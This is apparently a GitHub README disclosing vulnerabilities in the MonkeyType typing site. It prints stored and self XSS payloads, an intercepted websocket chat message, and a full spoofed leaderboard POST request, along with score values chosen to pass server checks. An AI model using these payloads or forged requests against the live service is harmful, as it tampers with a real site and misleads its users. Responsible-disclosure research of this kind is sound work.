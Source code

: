 ```
                                                          .="=.
                                                      _/.-.-.\_     _
                                                      ( ( o o ) )    ))
                                                      |/  "  \|    //
                                      .-------.        \'---'/    //
                                      _|~~ ~~  |_       /`"""`\\  ((
                                  =(_|_______|_)=    / /_,_\ \\  \\
                                      |:::::::::|      \_\\_'__/ \  ))
                                      |:::::::[]|       /`  /`~\  |//
                                      |o=======.|      /   /    \  /
                                      `"""""""""`  ,--`,--'\/\    /
                                                  '-- "--'  '--'
                                     Vulnerability Research by Tyler Butler 🍌 
```


# Monkey See Monkey Do 🙈
This repository contains original vulnerability research on [MonkeyType](https://monkeytype.com/), a popular typing-test web application with a growing online community. The current research includes several cross-site scripting vulnerabilities. All issues were disclosed to the vendor according to the vendor's [guidance](https://github.com/Miodec/monkeytype/blob/master/.github/ISSUE_TEMPLATE/bug_report.md) as GitHub issues, as well as on the discord channel.  


**Table of Contents**
- [Identified Vulnerabilities](#identified-vulnerabilities)
  - [Stored Cross-Site Scripting (XSS) via Tribe Chat](#stored-cross-site-scripting-xss-via-tribe-chat)
  - [Leaderboard Authenticated ByPass by Spoofing](#leaderboard-authenticated-bypass-by-spoofing)
  - [Self Cross Site Scripting (XSS) via Word History](#self-cross-site-scripting-xss-via-word-history)
- [MonkeySee](#monkeysee)
  - [What is it?](#what-is-it)
  - [How does it Work?](#how-does-it-work)


# Identified Vulnerabilities

> The following section describes publically disclosed vulnerabilities
## Stored Cross-Site Scripting (XSS) via Tribe Chat 

![](img/tribe_stored_xss.gif)

### Overview

The MonkeyType Tribe chat at https://dev.monkeytype.com/tribe is vulnerable to stored cross-site scripting through user comments and username. The research concludes that input validation can be evaded by intercepting raw web socket traffic, and injecting payloads directly into message content. To do so, malicious users can enter a non-xss string in the chat field and send it to web server, then capture the web socket traffic with a proxy tool like BurpSuite, and finally modify the input to a XSS payload.

### Payload   

In this example, I used an `onclick` payload to demonstrate the capability. The final payload was ```test<svg/onclick=alert`xss`>```

**Socket Message**

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```

![](img/tribe_stored_xss.png)


### To Reproduce

+ Configure [BurpSuite](https://portswigger.net/burp) to intercept browser traffic
+ Navigate to https://dev.monkeytype.com/tribe
+ Click on "create room"
+ Turn on BurpSuite proxy interception
+ Enter a new chat string
+ Intercept the web socket traffic, and chang the chat string to an XSS payload, example below.

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```


![](img/tribe_stored_xss_burp.png)


## Leaderboard Authenticated ByPass by Spoofing 

### Overview 

Monkeytype.com is vulnerable to authenticated bypass by spoofing in the leaderboard. Users can bypass leaderboard controls and inject any object they want into the leaderboard by spoofing post requests to `/checkLeaderboards`. Malicious users can send specially crafted post requests and inject any user they want to the top of the leaderboard with any value words per minuet they want. Server does invalidate requests with cross-site scripting (XSS) payloads, therefore I believe this is not vulnerable to XSS.

### Payload

```yaml
POST /checkLeaderboards HTTP/2
Host: us-central1-monkey-type.cloudfunctions.net
Content-Length: 750
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Authorization: Bearer 
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://monkeytype.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://monkeytype.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"data":{"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","lbMemory":{"time15":{"global":null,"daily":null},"time60":{"global":null,"daily":null}},"name":"pwnville_foo2<script>console.log","banned":null,"verified":null,"discordId":null,"result":{"wpm":200.00,"rawWpm":200.00,"correctChars":250,"incorrectChars":6,"allChars":250,"acc":92,"mode":"time","mode2":15,"quoteLength":-1,"punctuation":false,"numbers":false,"timestamp":1622147912060,"language":"english","restartCount":0,"incompleteTestSeconds":0,"difficulty":"normal","testDuration":15.001134999999515,"afkDuration":0,"blindMode":false,"theme":"9009","tags":[],"consistency":83.22,"keyConsistency":45.56,"funbox":"none","bailedOut":false,"customText":null,"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","id":"vZkPA1dmzeUvaGQPkE4Z"}}}
```

> After making the above post request, my user was added to the top of the leaderboard  


![](img/leader.png)

### Vulnerable Components 

The root cause of the stored XSS vulnerability is the method for which firebase data is input into the leaderboards table. On line [126](https://github.com/Miodec/monkeytype/blob/974088926fbe42de1c7c82a1a8902a103c18b91f/src/js/elements/leaderboards.js#L126) in leaderboard.js, 


```html
$("#leaderboardsWrapper table.daily tbody").append(`
          <tr>
          <td>${
            dindex === 0 ? '<i class="fas fa-fw fa-crown"></i>' : dindex + 1
          }</td>
          <td ${meClassString}>${entry.name}</td>
          <td class="alignRight">${entry.wpm.toFixed(
            2
          )}<br><div class="sub">${entry.acc.toFixed(2)}%</div></td>
          <td class="alignRight">${entry.raw.toFixed(2)}<br><div class="sub">${
            entry.consistency === "-" ? "-" : entry.consistency.toFixed(2) + "%"
          }</div></td>
          <td class="alignRight">${entry.mode}<br><div class="sub">${
            entry.mode2
          }</div></td>
          <td class="alignRight">${moment(entry.timestamp).format(
            "DD MMM YYYY"
          )}<br><div class='sub'>${moment(entry.timestamp).format(
            "HH:mm"
          )}</div></td>
        </tr>
```
## Self Cross Site Scripting (XSS) via Word History

![](img/self_xss2.png)

### Overview   

User input is interpreted by the browser unsanitized when entered into the typing challenge. Once the challenge is over and the user opens the "word history" tab, hovering over the mispelled words will cause the browser to interpret the payload as valid injected code. Under current limitations significant code execution cannot be caused due to character limit, however more research should be done to prove impact. This occurs in default settings.

### To Reproduce 

For a XSS payload, just start typing the following upon immediatly starting a new typing test ```"><svg/onclick=alert1`>```

+  Start a new typing challenge
+  Spell the first word correctly, then immediately after the first word and with no spaces after, terminate the string with ">
+  Enter payload
+  Once the timer is complete, select the option to view word history
+  Hover over the misspelled word, and the payload will execute

![](img/self_xss1.png)



# MonkeySee 
## What is it? 
Monkey See is a quick proof of concept to show how any user can enter the daily and global leaderboards of [MonkeyType](https://monkeytype.com) by sending carefully crafted post requests to the firebase server. 

## How does it Work?  

Monkey see works by creating a new post request and changes the `wpm`, `rawwpm`, `correctChars`, `incorrectChars`, and `allChars` parameters. Back-end logic checks to make sure that the wpm matches the total number of correctChars, so it's important to keep these consistent. For example, to create a new score with 195 words per minuet, the following parameters were used.

**Mode 15**

```json
"wpm":195.17,
"rawWpm":195.17,
"correctChars":242,
"incorrectChars":1,
"allChars":243,
```

**Mode 60**

```json
"wpm":190.79,
"rawWpm":191.79,
"correctChars":950,
"incorrectChars":0,
"allChars":950,
```

![](img/mode_60_injection.png)
